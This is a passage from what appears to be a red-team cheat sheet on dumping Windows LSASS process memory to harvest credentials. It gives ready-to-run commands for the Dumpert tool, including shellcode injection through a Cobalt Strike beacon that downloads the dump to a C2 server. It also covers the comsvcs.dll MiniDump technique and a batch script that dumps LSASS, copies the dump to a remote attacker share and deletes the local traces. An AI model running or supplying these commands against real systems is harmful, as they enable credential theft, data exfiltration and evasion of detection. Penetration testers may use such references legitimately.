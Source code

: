 `Dumpert` can be used either as a standalone executable or as a `DLL`, that can
be executed using the Windows built-in `rundll32` utility:

```
Dumpert.exe

rundll32.exe Dumpert-DLL.dll,Dump
```

A `Shellcode Reflective DLL Injection (sRDI)` version of the code is also
provided, coupled with a `Cobalt Strike` `agressor` script that uses the
`Cobalt Strike`'s beacon `shinject` command to inject the `sRDI` shellcode
into the current process. Through this execution method, `Dumpert` is executed
without the executable file being written to the compromised system disk.

The `sRDI` shellcode is a conversion of the `Dumpert` `DLL` made using the
`sRDI` project's `ConvertToShellcode.py` Python script:

```
python3 ConvertToShellcode.py Outflank-Dumpert.dll
```

After importing the `Outflank-Dumpert.cna` `agressor` script in `Cobalt Strike`
(`Cobalt Strike` -> `Script Manager` -> Load), the `dumpert` command can be
used through a `Cobalt Strike` beacon. The command will inject the shellcode
into the beacon process, dump `LSASS` into `C:\Windows\Temp\dumpert.dmp` using
`Dumpert` (`DLL` version), and finally download the dump file on the C2 server.

```
beacon> dumpert
beacon> rm C:\Windows\Temp\dumpert.dmp
```

###### Windows built-in comsvcs.dll

The Windows built-in DLL `comsvcs.dll` exposes the `MiniDump` function that can
be leveraged to dump the `LSASS` process. The `rundll32` Windows built-in
utility can be used to load the `comsvcs.dll` `DLL` and run the `MiniDump`
function.

Note that the process conducting the dump must have debug privileges (i.e the
`SeDebugPrivilege` privilege enabled), which is by default the case of
`PowerShell` process run from an elevated context.

```
tasklist /FI "imagename eq lsass.exe"
Get-Process lsass | Ft Id

rundll32 C:\Windows\System32\comsvcs.dll MiniDump <LSASS_PID> "<PATH_LSASS_DUMP>" full
powershell -c rundll32 C:\Windows\System32\comsvcs.dll MiniDump <LSASS_PID> "<PATH_LSASS_DUMP>" full
```

The following `bat` script automates the process and exfiltrate the `lsass`
dump to a remote share:

```
For /F "Tokens=2" %%I in ('tasklist /FI "imagename eq lsass.exe"') Do Set LsassPid=%%I

powershell.exe -c rundll32 C:\windows\system32\comsvcs.dll MiniDump %LsassPid% "C:\Windows\System32\spool\drivers\color\lsass.dmp" full

IF EXIST "C:\Windows\System32\spool\drivers\color\lsass.dmp" (
	dir \\<LHOST>\TMP
	xcopy /Y /i /q "C:\Windows\System32\spool\drivers\color\lsass.dmp" "\\<LHOST>\TMP"
  del "C:\Windows\System32\spool\drivers\color\lsass.dmp"
)
```
